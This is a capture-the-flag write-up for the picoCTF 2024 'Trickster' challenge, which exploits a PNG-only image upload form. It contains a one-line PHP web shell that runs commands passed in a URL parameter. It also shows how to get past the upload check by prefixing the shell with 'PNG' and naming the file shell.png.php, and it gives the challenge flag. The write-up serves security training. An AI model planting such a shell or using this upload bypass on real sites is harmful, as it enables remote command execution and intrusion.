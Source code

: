 # Trickster
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2024, browser_webshell_solvable

Description: 
I found a web app that can help process images: PNG images only!

Hints: None
```
## Overview
### When accessing the web, we can see a page that allows us to upload png files
![alt text](/picoCTF/Static/Images/Trickster/image1.png)  
* I tried uploading an image file, and this is what I got 

![alt text](/picoCTF/Static/Images/Trickster/image2.png)
## Solution
**Step1:** Recon  
* Usually when I encounter a website like this, I immediately think of the existence of a file upload vulnerability  
* Those websites do not return the path to the uploaded file for us, now let's try to find more data  
* I tried accessing /robots.txt and this is the result I got

![alt text](/picoCTF/Static/Images/Trickster/image3.png)  
* We can use /uploads/x.png to view images  
* i also tried accessing /instructions.txt to see what was there and this is what i got  
```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
* It gives us some information that the web will check the .png extension and will check the first few hex bits of the file to see if it is PNG or not.  
* The administrator will store the files and take the necessary steps to read the files => this is indeed a file upload vulnerability  
**Step2:** Exploit  
* We need to think of ways to bypass web authentication  
* First we will create a shell.php file containing malicious code   
```PHP
<?php echo system($_GET["cmd"]) ?>
```
* Then we can add the PNG at the beginning, so if the web checks the first few hex bits it won't be revealed.  
```PHP
PNG<?php echo system($_GET["cmd"]) ?>
```
* Now turn on burpsuite and catch requests  
* Rename the file to shell.png.php and then upload it  
* We have successfully defrauded the website, now let's use OS commands to get the flag  
## Flag
`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`
